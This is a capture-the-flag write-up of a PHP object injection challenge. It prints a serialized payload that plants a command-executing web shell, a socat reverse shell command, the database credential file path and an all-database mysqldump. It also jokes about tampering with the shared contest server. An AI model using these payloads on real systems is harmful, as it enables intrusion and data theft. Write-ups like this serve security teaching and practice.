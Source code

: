 # How Brutus stole Christmas (Web 492, 13 solves)
We sign up to the platform to view the challenges. Looking around, there's nothing exploitable looking on the platform itself.
There are two web challenges listed: a "Brutus" challenge and an actually impossible challenge.
The Brutus challenge is a pretty spicy Geocities site clone, but at the bottom of the HTML it tells us to go to ?source=1.
This shows the challenge takes an optional base64 encoded footer from the query and unserializes it. Conviniently there's an object with an arbitrary write destructor, so we can apply the textbook object injection example from like [here](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection). We'll craft a payload that simply writes out a script that runs commands we pass it and prints the output.

```
O:11:"pageContent":2:{s:9:"file_name";s:14:"data/shell.php";s:10:"newContent";s:63:"<?php $o=[];exec($_GET["cmd"], $o); print(implode("\n",$o)); ?>";}
http://challs.xmas.htsp.ro:3050/?newFooter=TzoxMToicGFnZUNvbnRlbnQiOjI6e3M6OToiZmlsZV9uYW1lIjtzOjE0OiJkYXRhL3NoZWxsLnBocCI7czoxMDoibmV3Q29udGVudCI7czo2MzoiPD9waHAgJG89W107ZXhlYygkX0dFVFsiY21kIl0sICRvKTsgcHJpbnQoaW1wbG9kZSgiXG4iLCRvKSk7ID8%2BIjt9
```

Exploring installed binaries with `ls`, we find socat as best candidate for a reverse shell (taken from GTFObins):
```
http://challs.xmas.htsp.ro:3050/data/shell.php?cmd=exec socat tcp-connect:ip:port exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

Now that we're in we see that this is the same server the CTFx instance is running on. (We can also verify the harder challenge is actually impossible...)
We use the official repo to find DB credentials are located at /var/www/ctfx/include/config/db.default.inc.php.
Use these credentials with `mysqldump -u mellivora -p=password --all-databases > tmp`, and download with browser.
Searching the dump we see our flag in the challenges table: `X-MAS{Brutus_why_d1d_y0u_h4v3_t0_h4v3_RCE_113c41afe0}`.
At this point you could fuck around with the CTFx instance if you wanted and hide the Brutus challenge URL to make it practically impossible :p

Since we're done we `rm tmp` and `rm shell.php` to make sure we aren't helping future teams.